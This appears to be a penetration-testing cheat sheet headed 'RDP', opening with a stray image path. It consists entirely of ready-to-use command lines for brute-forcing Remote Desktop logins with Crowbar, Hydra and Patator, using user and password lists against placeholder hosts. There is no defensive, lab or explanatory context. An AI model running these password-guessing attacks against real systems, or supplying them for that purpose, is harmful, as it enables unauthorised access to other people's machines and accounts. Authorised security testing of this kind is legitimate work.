 # RDP

## 01 - Crowbar

```
$ crowbar -b rdp -s <IP> -u <username> -C passwords.lst -n 1

$ crowbar -b rdp -U users.lst -C passwords.lst -s <IP>/32
```

## 02 - Hydra

```
$ hydra -V -l <username> -p <password> rdp://<IP>/<domain>

$ hydra -V -l <username> -P passwords.txt <IP> rdp
```

## 03 - Patator

```
$ patator rdp login host=<IP> user=<username> password=FILE0 0=passwords.lst -x ignore:fgrep='ERRCONNECT_LOGON_FAILURE'
```